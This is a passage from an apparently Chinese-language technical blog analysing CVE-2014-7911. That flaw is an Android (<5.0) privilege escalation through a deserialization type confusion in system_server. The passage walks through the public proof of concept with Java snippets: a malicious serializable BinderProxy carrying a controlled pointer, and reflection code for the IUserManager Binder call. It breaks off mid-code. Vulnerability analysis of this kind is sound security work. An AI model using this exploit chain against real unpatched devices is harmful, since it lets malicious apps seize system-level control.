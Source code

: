 # cve-2014-7911安卓提权漏洞分析

0x00 简介
=====

CVE-2014-7911是由Jann Horn发现的一个有关安卓的提权漏洞，该漏洞允许恶意应用从普通应用权限提权到system用户执行命令，漏洞信息与POC见(1]。漏洞的成因源于在安卓系统（<5.0）中，java.io.ObjectInputStream并未校验输入的java对象是否是实际可序列化的。攻击者因此可以构建一个不可序列化的java对象实例，恶意构建其成员变量，当该对象实例被ObjectInputStream反序列化时，将发生类型混淆，对象的Field被视为由本地代码处理的指针，使攻击者获得控制权。

0x02 漏洞分析
=====

在Jann Horm给出的漏洞信息与POC中(1]，向`system_server`传入的是不可序列化的`android.os.BinderProxy`对象实例，其成员变量在反序列化时发生类型混淆，由于`BinderProxy`的finalize方法包含本地代码，于是在本地代码执行时将成员变量强制转换为指针，注意到成员变量是攻击者可控的，也就意味着攻击者可以控制该指针，使其指向攻击者可控的地址空间，最终获得在`system_server（uid=1000）`中执行代码的权限。下面主要结合POC对漏洞进行详细分析，由于笔者之前对相关的Java序列化、`Android binder`跨进程通信和native代码都不太熟悉，主要根据参考文献进行翻译、整理和理解，不当之处，还请读者海涵。

**_Java层分析：_**

第一步，构建一可序列化的恶意对象

创建`AAdroid.os.BinderProxy`对象，并将其放入Bundle数据中

```
Bundle b = new Bundle();
AAdroid.os.BinderProxy evilProxy = new AAdroid.os.BinderProxy();
b.putSerializable("eatthis", evilProxy);

```

注意`AAdroid.os.BinderProxy`是可序列化的，其成员变量`mOrgue`就是随后用于改变程序执行流程的指针。随后该可序列化的`AAdroid.os.BinderProxy`将在传入`system_server`之间修改为不可序列化的`Android.os.BinderProxy`对象

```
public class BinderProxy implements Serializable {
    private static final long serialVersionUID = 0;
   //public long mObject = 0x1337beef;
   //public long mOrgue = 0x1337beef;
   //注意：此处要根据待测的Android版本号设置，在我们待测试的Android 4.4.4中，BinderProxy的这两个Field为private int，这样才能保证POC访问的地址为我们设置的值0x1337beef
   private int mObject = 0x1337beef;
   private int mOrgue = 0x1337beef;
}

```

第二步，准备传入`system_server`的数据

主要通过一系列java的反射机制，获得`android.os.IUserManager.Stub,andrioid.os.IUserManager.Stub.Proxy`的Class对象，最终获得跨进程调用`system_server`的IBinder接口——mRemote，以及调用`UserManager.setApplicationRestriction`函数的`code——TRANSACTION_setApplicationRestriction`，为与`system_server`的跨进程Binder通信作准备。

```
Class clIUserManager = Class.forName("android.os.IUserManager");
            Class[] umSubclasses = clIUserManager.getDeclaredClasses();
            System.out.println(umSubclasses.length+" inner classes found");
            Class clStub = null;
            for (Class c: umSubclasses) {
                //it's android.os.IUserManager.Stub
                System.out.println("inner class: "+c.getCanonicalName());
                if (c.getCanonicalName().equals("android.os.IUserManager.Stub")) {
                    clStub = c;
                }
            }

            Field fTRANSACTION_setApplicationRestrictions =
                    clStub.getDeclaredField("TRANSACTION_setApplicationRestrictions");
            fTRANSACTION_setApplicationRestrictions.setAccessible(true);
            TRANSACTION_setApplicationRestrictions =
```